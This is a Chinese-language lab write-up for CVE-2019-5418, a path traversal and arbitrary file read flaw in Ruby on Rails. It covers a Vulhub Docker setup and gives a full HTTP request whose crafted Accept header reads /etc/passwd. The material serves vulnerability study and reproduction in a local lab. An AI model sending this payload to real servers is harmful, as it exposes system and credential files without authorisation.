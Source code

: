 # Ruby On Rails 路径穿越与任意文件读取漏洞CVE-2019-5418

## 漏洞描述

在控制器中通过`render file`形式来渲染应用之外的视图，且会根据用户传入的Accept头来确定文件具体位置。我们通过传入`Accept: ../../../../../../../../etc/passwd{{`头来构成构造路径穿越漏洞，读取任意文件。

参考链接：

- https://groups.google.com/forum/#!topic/rubyonrails-security/pFRKI96Sm8Q
- https://xz.aliyun.com/t/4448

## 环境搭建

Vulhub执行如下命令编译及启动Rail On Rails 5.2.2：

```
docker-compose build
docker-compose up -d
```

环境启动后，访问`http://your-ip:3000`即可看到Ruby on Rails的欢迎页面。

![image-20220228192120401](./images/202202281921260.png)

## 漏洞复现

访问`http://your-ip:3000/robots`可见，正常的robots.txt文件被读取出来。

利用漏洞，发送如下数据包，读取`/etc/passwd`：

```
GET /robots HTTP/1.1
Host: your-ip:3000
Accept-Encoding: gzip, deflate
Accept: ../../../../../../../../etc/passwd{{
Accept-Language: en
User-Agent: Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Win64; x64; Trident/5.0)
Connection: close
```

成功读取`/etc/passwd`：

![image-20220228192315692](./images/202202281923976.png)